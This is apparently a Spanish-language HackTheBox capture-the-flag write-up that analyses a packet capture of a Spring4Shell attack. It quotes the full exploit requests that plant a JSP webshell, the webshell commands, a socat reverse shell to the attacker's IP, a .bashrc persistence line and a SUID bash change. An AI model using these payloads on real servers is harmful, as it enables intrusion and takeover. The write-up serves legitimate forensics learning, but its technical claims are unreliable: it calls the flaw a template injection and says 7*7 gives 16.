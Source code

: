 # "Wrong Spooky Season"
-----------------------

Nos dan un archivo "zip" que se traduce en una captura "pccap". Este se abre con la contraseña "hackthebox" (nos
la dan) Junto a una descripción del reto.

```
"Les dije que era muy pronto y no era la estacíon correcta para lanzar semejante web, pero me aseguraron que
darle esta temática seria suficiente para evitar que los fantasmas fueran a por nosotros. Estaba equivcado"

Ahora, hay una brecha de seguridad en la "Spooky Network" y necesito que encuentres que ha pasado. Analiza la 
red y descubre como entraron los fantasmas y que hicieron
```

Si abrimos la captura vemos un montón de tráfico entre estos dos sistemas 
"192.168.1.180" (cliente) y "192.168.1.166" (servidor, aloja una web por el puerto 8080) 
Viendo estas IPs "192.168.1..." parece una LAN de Clase C (pequeñita, domestica).

Lo primero, hay mucho tráfico TCP, pero lo que nos interesa es el HTTP, o sea la interación por la web.

Cuando accedes a una web, le pides unos cuantos recursos como imagenes, codigo fuente y hoja de estilos que el 
navegador se encarga de colocar de una manera vistosa. 

Las primeras 30 peticiones son justo eso, así que las ignoraremos.
Lo critico viene con las /POST (envió de datos/formularios)

Si seleccionamos un paquete /POST y le damos a "seguir tráfico TCP" podemos ver a la derecha todo el contenido.
Podemos copiarnos el html en un archivo "index.html" y hostearlo en un servidor para ver como se vería la web.

Solo tenemos un formulario ("Enter email adress"), asi que si ha habido un ataque sera ahí.
A /home manda una cadena "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="

No tengo ni idea de que es, asi que la busco en google y pone "Spring4Shell". La información que consigo es la
siguiente:
- Spring4Shell se parece en nombre a Log4Shell, y en efecto, ambas son vunls de java, en concreto esta afecta a "Spring Framework"
- Dicho Framework utiliza "Spring Boot" que hace que los desarolladores puedan poner en marcha de manera rapida sus aplicaciones.
- Por su esructura es muy similar a Flask en Python.
- El asunto esque este framework utiliza "templates" (o sea como pasa con python) por lo que se da el cláscio STTI

```"Tu te llamas" + ${nombre}``` 
El STTI accede a las clases y de ahí va escalando y moviendose hasta encontrar un modulo de ejecucion de comandos.

1. /home -> ```{"class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat":""}```
Supongo que para comprobar si es inyectable, como el clasico {{7*7}} -> 16

2. ```{"class.module.classLoader.resources.context.parent.pipeline.first.pattern":"%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i"}```
Parece el contenido de una backdoor (programado en java).

3. ```{"class.module.classLoader.resources.context.parent.pipeline.first.suffix":".jsp"}```
Archivo de java para codigo web, en concreto para crear la backdoor.

4. ```{"class.module.classLoader.resources.context.parent.pipeline.first.directory":"webapps/ROOT"}```
Directorio donde va a poner la backdoor.

5. ```{"class.module.classLoader.resources.context.parent.pipeline.first.prefix":"e4d1c32a56ca15b3"}```
El nombre de dicha "backdoor.jsp"

6. ```{"class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat":""}```
7. ```{"class.module.classLoader.resources.context.parent.pipeline.first.pattern":""}```
Supongo que serán para que se guarde o que e active no se.

El resto son interacciones con esta backdoor:
```
/GET /e4d1c32a56ca15b3.jsp?cmd=whoami
/GET /e4d1c32a56ca15b3.jsp?cmd=id
/GET /e4d1c32a56ca15b3.jsp?cmd=apt -y install socat  # instalar socat
/GET /e4d1c32a56ca15b3.jsp?cmd=socat TCP:192.168.1.180:1337 EXEC:bash  # mandale una shell a su IP con socat
```

Una vez hecho esto el atacante entró en el sistema, se acabo el flujo HTTP, asi que ahora tenemos que fijarnos
en el TCP. 
Se pone a enumerar el sistema en busca de vulns ```id, cat /etc/passwd, groups, uname -r, find / -perm -u=s -type f 2>/dev/null```
Al final ```echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc``` para ganar persistencia que cada vez que alguien abra una consola se le mande a él.
```chmod +s /bin/bash``` hacer a la bash SUID 

Uno de los comandos que hace es este:
```echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null``` 
Que se traduce en la flag: ```HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}```
